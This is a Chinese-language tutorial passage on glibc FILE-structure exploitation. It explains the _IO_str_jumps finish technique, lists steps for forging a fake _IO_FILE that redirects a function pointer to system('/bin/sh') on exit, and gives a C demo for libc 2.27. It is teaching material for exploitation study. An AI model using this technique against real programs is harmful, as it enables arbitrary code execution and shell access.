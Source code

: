 ### _IO_str_jumps -> finish的利用

__原理:__

在[\_IO\_str\_jumps -\> overflow的利用](#_io_str_jumps---overflow的利用)的基础上，通过进一步修改`vtable`偏移使原本要调用的`overflow`改成`finish`，注意函数指针使用的不是`alloc`而是`free`

```C
void _IO_str_finish(_IO_FILE *fp, int dummy)
{
    if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
        (((_IO_strfile *)fp)->_s._free_buffer)(fp->_IO_buf_base);
    // ...
}
```

__攻击:__

1. `fake_IO_FILE->_flags = 0`
2. `fake_IO_FILE->_mode = 0`
3. `fake_IO_FILE->_IO_write_base = 0`
4. `fake_IO_FILE->_IO_write_ptr = 1`
5. `fake_IO_FILE->_IO_buf_base = /bin/sh`地址
6. `fake_IO_FILE->vtable = &(_IO_str_jumps - 0x8)`(将`vtable`指向`_IO_str_jumps - 8`)
7. `fake_IO_FILE + 0xE8 = system`
8. 修改 `_IO_FILE->_chain` 或者 `_IO_list_all` 为 `fake_IO_FILE`
9.  `exit`时即可触发漏洞

__示例:__

```C
// libc-2.27.so 初代版本
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <demo.h>

char binsh[] = "/bin/sh";

int main()
{
    u64 str_jumps = GET_VALUE(stdin) - (0x3EBA00 - 0x3E8360);

    u64 fake_IO_FILE = MALLOC(0x100); // fake_IO_FILE_PLUS和fake_vtable

    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x0, 0);                           // fake_IO_FILE->_flags = 0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x20, 0);                          // fake_IO_FILE->_IO_write_base = 0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x28, 1);                          // fake_IO_FILE->_IO_write_ptr = 1
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x38, GET_VALUE(binsh));           // fake_IO_FILE->_IO_buf_base = /bin/sh地址
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xC0, 0);                          // fake_IO_FILE->_mode = 0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xD8, GET_VALUE(str_jumps) - 0x8); // fake_IO_FILE->vtable = &(_IO_str_jumps-0x8)
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xE8, &system);                    // fake_IO_FILE + 0xE8 = system

    SET_ADDR_OFFSET_VALUE(stderr, 0x68, fake_IO_FILE); // 设置stderr->chain为fake_FILE_vtable

    return 0; // 触发漏洞
}
```
